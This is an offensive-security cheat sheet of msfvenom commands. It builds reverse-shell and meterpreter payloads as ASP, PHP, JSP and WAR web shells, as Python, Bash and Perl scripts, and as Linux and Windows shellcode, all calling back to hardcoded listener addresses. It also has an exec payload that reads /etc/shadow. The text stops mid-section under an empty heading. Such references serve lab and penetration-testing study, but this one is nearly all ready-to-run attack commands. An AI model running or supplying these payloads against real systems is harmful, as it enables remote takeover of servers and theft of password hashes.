 **Web payloads**

    # ASP
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f asp -o s.asp

    # PHP
    echo "<?php $(msfvenom -e php/base64 -p php/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f raw) ?>" > mrs443.php
    echo "<?php $(msfvenom -e php/base64 -p php/reverse_php LHOST=192.168.30.68 LPORT=443 -f raw) ?>" > rs443.php

    # JSP
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.30.68 LPORT=443 -f raw -o s.jsp

    # WAR
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.30.68 LPORT=443 -f war -o res.war

**Scripting payloads (cmd usage)**

    msfvenom -p cmd/unix/reverse_{python,bash,perl} LHOST=192.168.30.68 LPORT=443 -f raw -o s.{py,sh,pl}

**Shellcodes (for usage in custom written exploits)**

    # Linux
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f <language>
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.68 LPORT=443 --platform linux -f c -a x86 -e generic/none

    # Windows
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f <language>
    msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.107 LPORT=443 --platform windows -a x86 -f c -e generic/none

### Formats for shellcodes

Show payload as C array:

    $ ./msfvenom -p linux/x86/exec CMD='cat /etc/shadow' -f c
    $ ./msfvenom -p linux/x86/exec CMD='cat /etc/shadow' -f python

Show payload as hex string (\xef\fe\d4 ...):

    $ msfvenom -p linux/x86/exec CMD='/bin/sh' -b "\x00" -f c -o ./p; 
    $ cat ./p | tail -5 | tr -d '"' | tr -d "\n"

Show payload in text format:
